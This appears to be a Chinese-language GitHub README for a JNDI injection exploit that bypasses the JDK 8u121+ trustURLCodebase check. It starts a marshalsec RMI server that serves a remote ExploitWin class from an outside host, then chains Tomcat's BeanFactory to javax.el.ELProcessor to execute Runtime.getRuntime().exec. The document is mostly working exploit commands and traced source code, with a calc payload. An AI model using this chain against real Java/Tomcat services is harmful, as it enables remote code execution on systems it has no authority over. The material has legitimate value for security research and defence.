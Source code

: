 # JDNI-Bypass-JDK-By-RMI

```bash
javac -cp  "D:\repos\apache-tomcat-8.5.53\lib\catalina.jar" .\TomcatRMIServer.java
java -cp ".;D:\repos\apache-tomcat-8.5.53\lib\catalina.jar" TomcatRMIServer
```

![](imgs/RMI-JDK-bypass-EL-injection-test.gif)

# 代码调用流程

## 1、使用常规的marshalsec启动RMI服务：
```bash
java -cp D:\repos\marshalsec\target\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.85.1:8888/#ExploitWin
```

com.sun.jndi.rmi.registry.RegistryContext.java


```java
    public Object lookup(Name var1) throws NamingException {
        if (var1.isEmpty()) {
            return new RegistryContext(this);
        } else {
            Remote var2;
            try {
                var2 = this.registry.lookup(var1.get(0));
            } catch (NotBoundException var4) {
                throw new NameNotFoundException(var1.get(0));
            } catch (RemoteException var5) {
                throw (NamingException)wrapRemoteException(var5).fillInStackTrace();
            }

            return this.decodeObject(var2, var1.getPrefix(1));
        }
    }
```

这一步是实际发送RMI请求的地方，调用
jdk1.8.0_201\jre\lib\rt.jar!\sun\rmi\registry\RegistryImpl_Stub#lookup
```java

java.rmi.Remote var2 = this.registry.lookup(var1.get(0));
```

marshalsec的控制台打印log：
```
Have connection from /a.b.c.d:45904
Reading message...
Is RMI.lookup call for ExploitWin 2
Sending remote classloading stub targeting http://192.168.85.1:8888/ExploitWin.class
Closing connection
```

拿到Remote对象（具体地，是com.sun.jndi.rmi.registry.ReferenceWrapper对象）之后，继续调用：
jdk1.8.0_201\jre\lib\rt.jar!\com\sun\jndi\rmi\registry\RegistryContext.class#decodeObject(Remote var1, Name var2)
```java
    private Object decodeObject(Remote var1, Name var2) throws NamingException {
        try {
            Object var3 = var1 instanceof RemoteReference ? ((RemoteReference)var1).getReference() : var1;
            Reference var8 = null;
            if (var3 instanceof Reference) {
                var8 = (Reference)var3;
            } else if (var3 instanceof Referenceable) {
                var8 = ((Referenceable)((Referenceable)var3)).getReference();
            }

            if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase) {
                throw new ConfigurationException("The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.");
            } else {
                return NamingManager.getObjectInstance(var3, var2, this, this.environment);
            }
        } catch (NamingException var5) {
            throw var5;
        } catch (RemoteException var6) {
            throw (NamingException)wrapRemoteException(var6).fillInStackTrace();
        } catch (Exception var7) {
            NamingException var4 = new NamingException();
            var4.setRootCause(var7);
            throw var4;
        }
    }
```

因为ReferenceWrapper extends UnicastRemoteObject implements RemoteReference
所以它是instanceof RemoteReference，于是调用((RemoteReference)var1).getReference()
```java
            if (var3 instanceof Reference) {
                var8 = (Reference)var3;
            } 
```
然后调用
```java
            if (var8 != null && var8.getFactoryClassLocation() != null && !trustURLCodebase) {
                throw new ConfigurationException("The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.");
            } else {
                return NamingManager.getObjectInstance(var3, var2, this, this.environment);
            }
```
这里if有三个条件，同时满足的情况下会抛出异常。无法进入后面的NamingManager.getObjectInstance了。

第一个条件，肯定var8不为null，它是var3赋值过来的；
第三个条件，在8u121及以上，这个类都有这么一个static代码块，使`com.sun.jndi.rmi.object.trustURLCodebase`设置为false。
```java
    static {
        PrivilegedAction var0 = () -> {
            return System.getProperty("com.sun.jndi.rmi.object.trustURLCodebase", "false");
        };
        String var1 = (String)AccessController.doPrivileged(var0);
        trustURLCodebase = "true".equalsIgnoreCase(var1);
    }
```
第二个条件，
```java
var8.getFactoryClassLocation() != null
```
所以只能寄希望于`var8.getFactoryClassLocation()`返回null了。


## 2、使用绕过方式启动RMI服务

### javax.naming.spi.NamingManager#getObjectInstance

```java
// 拿到factory的name，这里是我们通过Reference传进去的org.apache.naming.factory.BeanFactory
String f = ref.getFactoryClassName();

// 从这个名字，和Reference中拿到ObjectFactory
ObjectFactory factory = getObjectFactoryFromReference(ref, f);

// 最后调用这个
factory.getObjectInstance(ref, name, nameCtx, environment);
```
												
### => org.apache.naming.factory.BeanFactory#getObjectInstance
```java
String beanClassName = ref.getClassName();    // 拿到class的名字，这里是javax.el.ELProcessor

// 使用类加载器TomcatEmbeddedWebappClassLoader加载javax.el.ELProcessor这个类
ClassLoader tcl = Thread.currentThread().getContextClassLoader();
beanClass = tcl.loadClass(beanClassName);


// 使用其无参构造器构造出这个实例（所以我们构造的这个beanClass需要有无参的构造器）
Object bean = beanClass.getConstructor().newInstance();

// 从ref中拿到forceString这个字段的值（所以需要我们之前构造好）
RefAddr ra = ref.get("forceString");

String value = (String)ra.getContent();

// 如果是,分割的话，将这个内容分割成字符串数组
String[] var18 = value.split(",");

// 对于这个数组中的每一个成员，propName=等号后面的值，param是等号前面的值
int index = param.indexOf(61);  // indexOf(61)就是indexOf("=")
if (index >= 0) {
    propName = param.substring(index + 1).trim();    // eval
    param = param.substring(0, index).trim();        // x
	
// 最后将这个隐射关系存到Map里，即将x这个字符串与eval(String )方法对应起来。
Map<String, Method> forced = new HashMap();
forced.put(param, beanClass.getMethod(propName, new Class[]{String.class}));

// 前面我们根据要实现javax.naming.spi.ObjectFactory接口找到了广泛存在的Tomcat8+中的org.apache.naming.factory.BeanFactory
// 而根据BeanFactory代码中的逻辑，得知我们要找到具有无参构造器，而且接收一个String类型作为参数。


// ra这里是javax.naming.StringRefAddr类型，对应我们之前设置的：
// ref.add(new StringRefAddr("x", "Runtime.getRuntime().exec(\"calc\")"));

value = (String)ra.getContent();    // Runtime.getRuntime().exec("calc")
Object[] valueArray = new Object[1];
Method method = (Method)forced.get(propName);   // propName是"x"
if (method != null) {
    valueArray[0] = value;
	
	// bean是javax.el.ELProcessor对象，这里是调用javax.el.ELProcessor#eval(valueArray)
    method.invoke(bean, valueArray);
    
```
